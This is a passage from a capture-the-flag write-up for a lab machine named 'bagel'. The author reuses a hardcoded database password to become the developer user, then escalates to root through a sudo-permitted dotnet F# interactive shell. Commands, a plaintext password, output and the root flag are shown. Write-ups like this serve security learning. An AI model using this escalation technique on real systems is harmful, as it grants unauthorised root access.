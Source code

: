 Remembering the database connection string we found hardcoded before, with `User ID=dev;Password=k8wdAYYKyhnjg3K` -- I tried `su - developer`:

```bash
[developer@bagel ~]$ [phil@bagel ~]$ su - developer
Password: 
[developer@bagel ~]$ 
[developer@bagel ~]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME
    LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

We have privelege escalated to the `developer` user and `sudo -l` shows we can run `/usr/bin/dotnet` as root.  Looking at [GTFOBins](https://gtfobins.github.io/gtfobins/dotnet/) for dotnet, we can run `dotnet fsi` to get an F# interactive shell, and then break out to a shell with `System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;`.  Trying this out:

```bash
[developer@bagel ~]$ sudo /usr/bin/dotnet fsi

Microsoft (R) F# Interactive version 12.0.0.0 for F# 6.0
Copyright (c) Microsoft Corporation. All Rights Reserved.

For help type #help;;

> System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
sh-5.2# whoami
root
sh-5.2# ls -la /root
total 60
dr-xr-x---.  7 root root  4096 Feb 14 11:53 .
drwxr-xr-x. 18 root root  4096 Jan 20 18:00 ..
-rw-------.  1 root root  1105 Oct 22 20:47 anaconda-ks.cfg
-rwxr-xr-x.  1 root root 16200 Oct 23 19:41 bagel
lrwxrwxrwx.  1 root root     9 Jan 20 17:59 .bash_history -> /dev/null
-rw-r--r--.  1 root root    18 Jan 21  2022 .bash_logout
-rw-r--r--.  1 root root   141 Jan 21  2022 .bash_profile
-rw-r--r--.  1 root root   429 Jan 21  2022 .bashrc
-rw-r--r--.  1 root root   100 Jan 21  2022 .cshrc
drwxr-xr-x.  4 root root  4096 Apr  8 20:50 .dotnet
drwxr-xr-x.  3 root root    19 Oct 22 21:12 .local
drwxr-xr-x.  4 root root    35 Oct 22 21:12 .nuget
-rw-r-----.  1 root root    33 Apr  7 07:21 root.txt
drwx------.  2 root root    25 Jan 26 19:44 .ssh
-rw-r--r--.  1 root root   129 Jan 21  2022 .tcshrc
drwxr-xr-x.  4 root root    39 Oct 22 21:12 .templateengine
-rw-------.  1 root root   532 Feb 14 11:53 .viminfo
sh-5.2# cat /root/root.txt
095531d4ca9a340c67f09d86bd6f5d25
```
